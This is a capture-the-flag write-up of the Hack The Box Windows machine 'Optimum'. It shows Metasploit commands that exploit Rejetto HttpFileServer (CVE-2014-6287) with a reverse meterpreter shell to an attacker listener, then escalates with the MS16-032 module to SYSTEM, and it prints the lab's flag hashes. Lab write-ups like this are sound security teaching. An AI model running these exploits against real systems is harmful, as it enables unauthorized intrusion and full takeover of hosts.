

[Hack The Box][HTB] is a plateform that gives you access to several vulnerable VMs. In this post, we'll take a look at `Optimum`, a VM running on Windows.

===

We're just given an IP, so let's fireup `nmap` and see the services running on that machine:

```text
root@kali:~# nmap 10.10.10.8 -p- -T5

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-27 23:49 CEST
Nmap scan report for 10.10.10.8
Host is up (0.059s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 507.79 seconds
```

It looks like we only have a webserver running on it, we can get more information with the `-sV` option. This option tells `nmap` to find more information about the services running.

```text
root@kali:~/Documents/HackTheBox/Optimum# nmap 10.10.10.8 -p 80 -sV

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-27 22:34 CEST
Nmap scan report for 10.10.10.8
Host is up (0.023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.21 seconds
```
The webserver running is `HTTP File Server 2.3`. This information is confirmed by the small banner on the website:



```text
HttpFileServer 2.3
Server time: 3/11/2017 8:35:38 πμ
Server uptime: 00:15:58
```
That's all we have so far, so we'll have to deal with it. We run metasploit and look if there is an exploit that could help us.

```text
root@kali:~# msfconsole
msf > search HttpFileServer

Matching Modules
================

   Name                                   Disclosure Date  Rank       Description
   ----                                   ---------------  ----       -----------
   exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Rejetto HttpFileServer Remote Command Execution
```

It seems that we have an exploit that could allow us to get a shell. After some digging on the internet, We quickly discover that the vulnerability is [identified as CVE-2014-6287][CVE] and targets the versions `2.3.x` of `HTTP File Server`, which is perfect for us! Now let's get that shell!

```text
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(rejetto_hfs_exec) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.55:4444 
[*] Using URL: http://0.0.0.0:8080/0FotgzBJo192
[*] Local IP: http://192.168.0.17:8080/0FotgzBJo192
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /0FotgzBJo192
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.55:4444 -> 10.10.10.8:49215) at 2017-10-28 09:31:27 +0200
[!] Tried to delete %TEMP%\TmqNJfjSBKcjWI.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

It worked! Perfect! We just owned the user:

```text
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   4096    dir   2017-11-03 17:29:33 +0100  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 12:57:16 +0100  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 13:11:17 +0100  hfs.exe
100666/rw-rw-rw-  32      fil   2017-03-18 13:13:33 +0100  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73meterpreter >
```

That was the first part, now we need to own the whole machine, aka get root. To do so, we need to find a way to gain privileges. First, let's take a look at the system info, it's always useful:

```text
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

The OS is a 64-bit `Windows 2012 R2`. I can use the script [Windows Exploit Suggester][WES] to find a list of exploits that could potentially help me to get root. (Note: the first time you run it, you will need to use the `--update` option.)

```text
root@kali:~# ./windows-exploit-suggester.py -d 2017-10-28-mssb.xls --ostext 'Windows 2012 R2 64-bit'
[*] // list of exploits
[*] done
```

After some research and a lot of disappointment, the `MS16-032` seems to be a good candidate. But before using it, we need to get a 64-bit shell so the exploit will work. (Because this is a x64 architecture.)

```text
meterpreter > background
[*] Backgrounding session 1...
msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.55:4444 
[*] Using URL: http://0.0.0.0:8080/ikHFJJgnD
[*] Local IP: http://192.168.0.17:8080/ikHFJJgnD
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /ikHFJJgnD
[*] Sending stage (205379 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.55:4444 -> 10.10.10.8:49241) at 2017-10-28 09:50:57 +0200
[!] Tried to delete %TEMP%\JdNaJvZunlmK.vbs, unknown result
[*] Server stopped.

meterpreter >
```
Now that we have our 64-bit shell, we're ready to use the `MS16-032` exploit module available in Metasploit:

```text
meterpreter > background
[*] Backgrounding session 2...
msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > set session 2
session => 2
msf exploit(ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.14.55
lhost => 10.10.14.55
msf exploit(ms16_032_secondary_logon_handle_privesc) > set lport 4443
lport => 4443
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse SSL handler on 10.10.14.55:4443 
[*] Writing payload file, C:\Users\kostas\Desktop\exdbWLC.txt...
[*] Compressing script contents...
[+] Compressed size: 3580
[*] Executing exploit script...
[*] Powershell session session 3 opened (10.10.14.55:4443 -> 10.10.10.8:49269) at 2017-10-28 10:08:41 +0200
[+] Cleaned up C:\Users\kostas\Desktop\exdbWLC.txt

Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop> whoami
nt authority\system
PS C:\Users\kostas\Desktop> cat C:\Users\Administrator\Desktop\root.txt
51ed1b36553c8461f4552c2e92b3eeed
```

We're done here folks! 


[HTB]: https://www.hackthebox.eu "Hack The Box website"
[CVE]: https://www.exploit-db.com/exploits/39161/ "CVE-2014-6287 exploit code"
[WES]: https://github.com/GDSSecurity/Windows-Exploit-Suggester "WES on GitHub"